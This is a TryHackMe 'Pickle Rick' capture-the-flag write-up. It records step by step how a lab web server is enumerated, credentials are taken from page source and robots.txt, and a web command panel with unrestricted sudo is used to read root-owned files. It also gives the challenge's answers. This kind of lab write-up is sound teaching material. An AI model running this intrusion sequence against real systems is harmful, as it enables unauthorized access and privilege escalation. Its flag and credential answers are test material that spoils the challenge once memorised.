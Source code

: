 # TryHackMe — Pickle Rick Potion (Writeup)

**Author:** Laila  
**Target IP:** 10.10.233.152  
**Date:** 2025-09-30

---

## Summary
This challenge required exploiting a web server to find three secret ingredients for Rick’s potion. Below I document the exact steps I took (copied verbatim from my notes) to enumerate the web application, authenticate, and retrieve all three ingredients.

---

## Steps I ran (exact sequence)

1. `nmap -sV -sC 10.10.233.152`

2.  

gobuster dir -u http://10.10.233.152/
 -w /root/Desktop/Tools/wordlists/dirbuster/directory-list-2.3-medium.txt


3. I opened the assets page, then opened `robots.txt`:


http://10.10.233.152/robots.txt

I got this:


Wubbalubbadubdub

I kept it because it could be the password.

4. I ran Nikto:


nikto -h 10.10.233.152

Nikto showed there is a `login.php` page, so I opened it:


http://10.10.233.152/login.php


5. I logged in to `login.php` using the credentials I had found:


username: R1ckRul3s
password: Wubbalubbadubdub

(The username was discovered earlier in the page source.)

6. After logging in I was taken to:


http://10.10.233.152/portal.php

In the portal command panel I ran `ls` and saw:


Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt


7. I downloaded/took `Sup3rS3cretPickl3Ingred.txt` and opened it:


sudo less Sup3rS3cretPickl3Ingred.txt

Inside I found the first ingredient:


mr. meeseek hair


8. Next, in the portal command panel I ran:


sudo ls /home

and got:


rick
ubuntu


9. I listed `/home/rick`:


sudo ls /home/rick

and saw:


second ingredients


10. I opened that file (note the space in the filename):


sudo less /home/rick/"second ingredients"

Inside I found the second ingredient:


1 jerry tear


11. I checked sudo permissions:


sudo -l

This output showed:


Matching Defaults entries for www-data on ip-10.10.233-152:
env_reset, mail_badpass, secure_path=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin

User www-data may run the following commands on ip-10.10.233-152:
(ALL) NOPASSWD: ALL


12. Because of that, I inspected root:


sudo ls -la /root

This showed:


total 36
drwx------ 4 root root 4096 Jul 11 2024 .
drwxr-xr-x 23 root root 4096 Sep 30 18:18 ..
-rw------- 1 root root 168 Jul 11 2024 .bash_history
-rw-r--r-- 1 root root 3106 Oct 22 2015 .bashrc
-rw-r--r-- 1 root root 161 Jan 2 2024 .profile
drwx------ 2 root root 4096 Feb 10 2019 .ssh
-rw------- 1 root root 702 Jul 11 2024 .viminfo
-rw-r--r-- 1 root root 29 Feb 10 2019 3rd.txt
drwxr-xr-x 4 root root 4096 Jul 11 2024 snap


13. I opened the final file:


sudo less /root/3rd.txt

It contained the third ingredient:


3rd ingredients: fleeb juice


---

## Recovered ingredients (final)
1. `mr. meeseek hair`  
2. `1 jerry tear`  
3. `fleeb juice`

---

## Artifacts I collected
- `logged_in.html` (session page after login)  
- `portal.html` (portal page saved)  
- `Sup3rS3cretPickl3Ingred.txt` (contains `mr. meeseek hair`)  
- `/home/rick/second ingredients` (contains `1 jerry tear`)  
- `/root/3rd.txt` (contains `3rd ingredients: fleeb juice`)  
- screenshots of portal output / sudo evidence (optional)

---

## Notes
- The above steps are an exact record of what I ran and what I observed. I did not add or alter the steps — this is a verbatim walkthrough for reproducibility.
- All activity was performed in a controlled TryHackMe environment.

---
